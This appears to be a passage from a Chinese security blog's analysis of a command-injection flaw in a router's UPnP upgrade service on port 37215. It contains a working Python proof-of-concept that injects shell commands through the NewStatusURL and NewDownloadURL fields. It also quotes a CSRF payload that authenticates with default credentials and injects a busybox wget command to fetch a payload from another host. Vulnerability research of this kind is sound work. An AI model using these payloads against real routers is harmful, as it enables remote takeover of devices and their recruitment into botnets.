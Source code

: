 可以看到程序**通过 ATP_XML_GetChildNodeByName 函数**来**获取** NewDownloadURL **节点**的**内容**，然后**判断结果**是否为空，如果获取成功且结果不为空则**继续获取 NewStatusURL 节点的内容**，再**判断结果**是否空，如果不为空则**将 NewDownloadURL 和 NewStatusURL 节点的内容拼接**到字符串，并**执行**。

此处我们就可以构造插入命令执行  

![](https://mmbiz.qpic.cn/mmbiz_png/djiam4RadAPY9RkY0Tx7x6VaJkDY0Pia0Tk7BvC9fsCr3gBKjowWG7RiblFyA0xzWiaKroyN5hHUruNd81DzpNJkvQ/640?wx_fmt=png)

POC 如下：  

```
import requests 
headers = {
    "Authorization": "Digest user
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;mkdir hell;</NewStatusURL>
   <NewDownloadURL>;mkdir hello;</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
response = requests.post('http://192.168.3.2:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
print(response)
```

在两个注入点分别注入不同的命令，qemu 仿真机建立的文件如下

![](https://mmbiz.qpic.cn/mmbiz_png/djiam4RadAPY9RkY0Tx7x6VaJkDY0Pia0THoFnytdbVYpaATs6Hqfjjs0dvoNWo5Ct1a8wnABlWCSQlVJDrTJuXw/640?wx_fmt=png)

5 漏洞扩展

值得一提的是，该路由器的 upnp 只能从内网端口访问，默认无法从外网端口访问，那我们有什么办法扩大该漏洞影响呢？  

通过查阅资料，我们发现了 **salt@腾讯玄武实验室**师傅对该漏洞的探索，如下：

> 要成功发起该请求需要满足以下两点：一是成功通过服务器端的 HTTP 基础认证，二是构造 XML 攻击代码。仔细观察 HTTP 基础认证的字段，我们可以发现，用于基础认证的用户名和密码为 dslf-config:admin。因此我们只需要构造表单，使之 POST 到 http:// dslf-config:admin @routerip:37215 即可自动完成基础认证。接下来就是如何用表单来构造一个 XML 的请求包了
> 
> https://paper.seebug.org/498/

最终，**salt** 师傅构造的 CSRF 攻击 payload 如下：

```
<body onload='document.forms[0].submit()'>
  <form method='POST' enctype='text/plain' action="http://dslf-config:admin@192.168.1.1:37215/ctrlt/DeviceUpgrade_1">
    <input name='<?xml version="1.0" ?><s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1"><NewStatusURL>a' value='1;$(/bin/busybox wget -g 192.168.1.2 -l /tmp/.f -r /b);</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>'>
  </form>
</body>
```
